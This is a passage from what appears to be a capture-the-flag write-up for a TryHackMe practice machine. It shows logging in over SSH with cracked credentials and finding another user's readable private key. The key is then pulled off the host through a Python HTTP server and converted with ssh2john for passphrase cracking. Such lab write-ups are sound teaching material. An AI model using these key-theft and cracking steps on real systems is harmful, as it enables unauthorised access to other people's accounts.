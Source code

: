 {% endhighlight %}

Thanks, Jan. Now we can access machine via ssh with credentials `jan:fakepass1`

### Jan

{% highlight console %}
m0rn1ngstr@kali:~/THM$ ssh jan@10.10.133.22
The authenticity of host '10.10.133.22 (10.10.133.22)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.133.22' (ECDSA) to the list of known hosts.
jan@10.10.133.22's password: fakepass1
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
...
Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$

{% endhighlight %}

After some enumeration, You can do it [manually](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) or with [LinEnum script](https://github.com/rebootuser/LinEnum), there is not much we can do with Jan's privileges.

But in Kay's directory there are intersting `pass.bak` file, but we don't have permissions to read it, and `.ssh` directory with ssh keys. Let's try to move to Kay's account.
{% highlight console %}
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
{% endhighlight %}


### Kay
Download `id_rsa` file by hosting HTTP Server via python and downloading using `wget`
{% highlight console %}
jan@basic2:/home/kay/.ssh$ python -m SimpleHTTPServer
{% endhighlight %}

Now we need to change permissions on downloaded file on our machine. And then try to connect, but we need passphrase to use this.
{% highlight console %}
m0rn1ngstr@kali:~/THM/BP/ssh$ chmod 600 id_rsa
m0rn1ngstr@kali:~/THM/BP/ssh$ ssh -i id_rsa kay@10.10.133.22
Enter passphrase for key 'id_rsa':

{% endhighlight %}

It can be cracked with `john`. But firstly we need to change its format with `ssh2john`. 

*NOTE: it may be not preinstalled on Kali. Run command *`locate ssh2john`* to find it.*
{% highlight console %}
m0rn1ngstr@kali:~/THM/BP/ssh$ ssh2john id_rsa > crack_ssh.txt
m0rn1ngstr@kali:~/THM/BP/ssh$ cat crack_ssh.txt 
id_rsa:$sshng$1$16$6ABA7DE35CDB65070B92C1F760E2FE75$2352$22835bfc9d2ad8f779e84676de801a2712ef86e499d5cad1af838d19402729c4718.......
{% endhighlight %}
